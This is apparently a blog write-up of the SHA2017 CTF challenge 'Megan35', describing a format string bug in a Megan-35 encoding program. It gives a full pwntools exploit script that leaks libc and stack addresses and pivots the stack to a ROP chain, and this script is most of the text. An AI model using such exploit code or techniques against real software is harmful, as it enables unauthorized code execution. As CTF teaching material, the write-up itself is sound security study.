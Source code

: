 ```yaml
---
layout: post
comments: true
title: SHA'17 - Megan35 (200pts)
---
```


Megan-35 is an Encryption algorithim which has been directly implemented in this program. It takes a string, encrypts it
and then stores it in another buffer. Then however, it does

`printf(buf);`

Format String bug. If we send in a string which when decoded gives `%p` then we will trigger the fms.

Instead of building an encryptor for my program itself, I used an [online service](http://hackers.co.id/megan-35.php).

ASLR is disabled on the server but we still don't know any address. So start with leaking libc.
After leaking libc, use `%s` and provide address of **environ**. That will get us stack address.

Then I simply pivoted stack to where my ropchain is.

Full exploit code:
```python
#!/usr/bin/python
from pwn import *

p = process("./megan-35",env={"LD_PRELOAD":"./libc.so.6"})
#p = remote("megan35.stillhackinganyway.nl", 3535)
raw_input()
# Magic = 0xf7e5a819
#buf = p32(0xffffde4c)
# Overwrite with 0x080484e0.
buf = p32(0x08049f0c)

buf += (p32(0xdeadbeef))*3
buf += p32(0xf7e53940)
#buf += p32(0xf7e5a940)
buf += p32(0xdeadbeef)
buf += p32(0x80482d6)
buf += p32(0xdeadbeef)
buf += p32(0xdeadbeef)
# Overwrite de3c with address of our code (dc20). So stack pivoting kind of.
#buf += pad
#buf += "OdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfq"
#buf += "OdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvkLy5"

# environ address.
#buf += "OdNvoHesShW1RZfyOdNvoHesShW1RZerRt=yOdNvkLy5"

buf += "OdNvoHesShW1RZfyOdNvoHesShW1RZesTIbqoHesSgXV"
########

#buf = p32(0xf7fd1dbc)
buf = p32(0xf7fcadbc)
#buf += "OdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesShR5"
buf += "OdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmq55"

########

log.info("Length: " + str(len(buf)))
p.sendline(buf)

leak = p.recv()
leak = p.recv()
leak = leak.split()
print leak
leak = leak[len(leak)-1]
leak = leak[0:4]
leak = u32(leak)
print hex(leak)

p.interactive()

```
